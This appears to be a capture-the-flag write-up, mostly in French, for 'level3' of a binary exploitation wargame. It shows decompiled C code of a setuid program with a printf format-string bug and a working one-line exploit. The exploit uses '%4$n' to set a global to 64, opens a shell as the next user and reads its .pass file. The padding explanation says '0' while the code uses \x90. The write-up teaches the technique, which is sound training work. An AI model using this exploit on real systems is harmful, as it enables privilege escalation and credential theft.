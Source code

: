 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```
$ id && pwd && ls -la
uid=2022(level3) gid=2022(level3) groups=2022(level3),100(users)
/home/user/level3
total 17
dr-xr-x---+ 1 level3 level3   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level3 level3  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level3 level3 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
-rw-r--r--+ 1 level3 level3   65 Sep 23  2015 .pass
-rw-r--r--  1 level3 level3  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire level3 :

```
$ ./level3

```

Il ne répond qu'avec un input :

```
$ ./level3
da
da
```

J'utilise `Dogbolt` afin de décompiler le binaire du level 3.

### Ghidra

```c
void v(void) {
  char buffer[520];
  
  fgets(buffer,0x200,stdin);
  printf(buffer);
  if (m == 0x40) {
    fwrite("Wait what?!\n",1,0xc,stdout);
    system("/bin/sh");
  }
  return;
}

void main(void) {
  v();
  return;
}
```

### Hexray

```c
int v() {
  int result; // eax
  char s[520]; // [esp+10h] [ebp-208h] BYREF

  fgets(s, 512, stdin);
  printf(s);
  result = m;
  if ( m == 64 )
  {
    fwrite("Wait what?!\n", 1u, 0xCu, stdout);
    return system("/bin/sh");
  }
  return result;
}
```

Ici, il semble être question de modifier la valeur de `m` dans le code afin de passer le `if` et ouvrir un shell.






in the source, we need to overwrite m to be equal to 64,  so that it passes the cmp

(python -c 'print("\x08\x04\x98\x8c"[::-1] + "\x90"*(64-4) + "%4$n")' && echo 'cat /home/user/level4/.pass') | ./level3
"Since we need to write 64 into m, we write 64 characters (4 from the address of m and 60 from the "0" padding). Then, we use the %n format specifier to record the count of bytes written so far into the fourth argument, which is m's address."

https://owasp.org/www-community/attacks/Format_string_attack